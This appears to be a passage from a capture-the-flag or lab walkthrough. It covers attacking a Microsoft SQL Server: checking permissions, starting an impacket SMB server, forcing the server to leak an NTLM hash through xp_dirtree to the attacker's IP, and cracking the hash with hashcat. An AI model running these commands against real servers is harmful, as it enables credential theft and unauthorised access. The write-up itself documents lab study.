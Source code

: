 ![version](../.res/2022-09-23-11-01-15.png)

- `SELECT * FROM fn_my_permissions(NULL, 'SERVER');` check our user perms  
![permissions](../.res/2022-09-23-11-08-23.png)
- Ok we do not have much permissions we should check another way.
- We can try something like this on [Mark Mo's blog](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)
- Let's create a directory in our attacking machine `mkdir querysmb`
- Let's launch smbserver `python3 /opt/impacket/examples/smbserver.py -smb2support myshare querysmb`  
![smbserver](../.res/2022-09-23-11-58-14.png)  
- Now we just need to do the exec command to drop the hash `exec xp_dirtree '\\10.10.14.7\myshare\'`
- And it works  
![hash](../.res/2022-09-23-12-20-40.png)  
- Now let's copy the hash in a txt and try to crack it using hashcat `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`  
![hashcat](../.res/2022-09-23-12-27-08.png)  
- Let's try to connect again on sql but with this user.  
